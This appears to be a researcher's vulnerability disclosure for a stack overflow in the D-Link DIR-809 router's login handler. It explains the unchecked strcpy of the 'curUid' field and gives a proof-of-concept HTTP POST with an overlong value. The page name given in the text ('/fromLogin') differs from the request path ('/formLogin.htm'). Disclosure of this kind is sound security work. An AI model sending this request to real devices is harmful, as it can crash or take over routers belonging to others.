 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/fromLogin` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `sub_8003183C` ( page `/fromLogin` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of the key "curUid" in the http post request which is completely under the attacker's control. 
2. The string `v4` obtained from user is then passed to `sub_800FE9CC` as the third argument. 
3. In the function `sub_800FE9CC`, argument `a3` is copied onto the stack using `strcpy` without any check. So we can make the stack buffer overflow in `v8`. (See the second figure below. )

![2021-05-10_10h03_30](README/2021-05-10_10h03_30.png)

![2021-05-10_10h05_24](README/2021-05-10_10h05_24.png)







## PoC

``` 
POST /formLogin.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 154
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/index.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=HQLFFU3LE1
Connection: close

curTime=1620541879564&curUid=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&FILECODE=&VERIFICATION_CODE=&user_name=admin&loginpwd=4DD9824117635539BF66A03AB80A35FC&VER_CODE=
```





## Acknowledgment

Credit to  [@peanuts62](https://github.com/peanuts62), [@Yu3H0](https://github.com/Yu3H0/), [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

